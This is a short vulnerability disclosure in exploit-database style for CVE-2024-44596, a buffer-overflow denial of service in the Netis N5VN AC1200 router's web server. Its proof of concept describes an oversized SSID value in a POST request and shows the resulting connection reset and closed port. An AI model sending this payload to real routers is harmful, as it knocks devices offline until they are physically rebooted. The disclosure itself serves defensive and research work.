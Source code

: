 ## Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

- Date: 05/03/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Netis Systems](https://www.netis-systems.com/)

- Version: Netis N5VN AC1200 V1.0.1.1742

- Tested on: Windows

- CVE : CVE-2024-44596

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

[Watch the video demonstration here](https://youtu.be/WvplWEa3XhU?si=r1BJhyBbHiKtsukQ)

![](https://www8.0zz0.com/2024/08/17/10/168879336.png)

![](https://down-vn.img.susercontent.com/file/vn-11134207-7qukw-lhrie7lcjrgh2b)
